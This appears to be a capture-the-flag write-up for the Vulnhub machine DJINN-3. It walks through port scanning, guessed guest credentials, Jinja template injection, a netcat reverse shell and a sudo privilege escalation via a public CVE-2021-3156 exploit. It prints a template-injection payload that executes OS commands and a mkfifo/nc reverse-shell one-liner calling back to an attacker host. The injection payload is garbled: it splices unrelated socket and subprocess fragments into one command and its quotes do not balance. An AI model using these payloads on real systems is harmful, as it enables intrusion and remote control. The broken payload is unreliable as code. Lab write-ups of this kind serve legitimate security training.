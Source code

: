 ```yaml
---
title: DJINN 3
categories: [Proving Grounds Play]
tags: [Public Exploit, SSTI, PrivEsc, sudo exploit, jinja]
image:
  path: /Vulnhub-Files/img/DJINN-3/167-3.png
  alt:  DJINN 3 Machine 🖥️
---
```


## **Description ⤵️**

>
**💡 [DJINN-3](https://www.vulnhub.com/entry/djinn-3,492/)**
<br>
- **Level:** Intermediate
- **flags**: root.txt
- **Description:** The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to read the root flag.
{: .prompt-info }

### Let’s find the IP Address first >>

![167-1.png](/Vulnhub-Files/img/DJINN-3/167-1.png)

```bash
IP : 10.0.2.20
```
{: .nolineno}

## Port Scan Results ➡️

![167-2.png](/Vulnhub-Files/img/DJINN-3/167-2.png)

```bash
OPEN PORTS >
22     SSH
80     HTTP
5000   HTTP
31337  Elite?
```
{: .nolineno}


## Web Enumeration ⤵️

![167-3.png](/Vulnhub-Files/img/DJINN-3/167-3.png)

![167-4.png](/Vulnhub-Files/img/DJINN-3/167-4.png)

So the port `31337` is for netcat connection → I guess the username & password as `guest:guest` and I got in →

![167-5.png](/Vulnhub-Files/img/DJINN-3/167-5.png)

Now lets check for `SSTI vulnerability` →

![167-6.png](/Vulnhub-Files/img/DJINN-3/167-6.png)

![167-7.png](/Vulnhub-Files/img/DJINN-3/167-7.png)

So I guess we have `SSTI vulnerability` so lets exploit →

Since my payload land into `jinja` catagory of `SSTI` so →

![167-8.png](/Vulnhub-Files/img/DJINN-3/167-8.png)

```bash
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls"));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

![167-9.png](/Vulnhub-Files/img/DJINN-3/167-9.png)

So After using this payload I got response as →

![167-10.png](/Vulnhub-Files/img/DJINN-3/167-10.png)

So now lets have a reverse shell and I will be using this nc reverse shell payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f` to do so →

![167-11.png](/Vulnhub-Files/img/DJINN-3/167-11.png)

![167-12.png](/Vulnhub-Files/img/DJINN-3/167-12.png)

___

## SHELL ➡️

![167-13.png](/Vulnhub-Files/img/DJINN-3/167-13.png)

Now I have used one exploit to counter this linux machine →

And this time I exploited the sudo version →

![167-14.png](/Vulnhub-Files/img/DJINN-3/167-14.png)

URL → [https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

![167-15.png](/Vulnhub-Files/img/DJINN-3/167-15.png)

Now lets use the `exploit_nss.py` exploit →

![167-16.png](/Vulnhub-Files/img/DJINN-3/167-16.png)

![167-17.png](/Vulnhub-Files/img/DJINN-3/167-17.png)

___

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
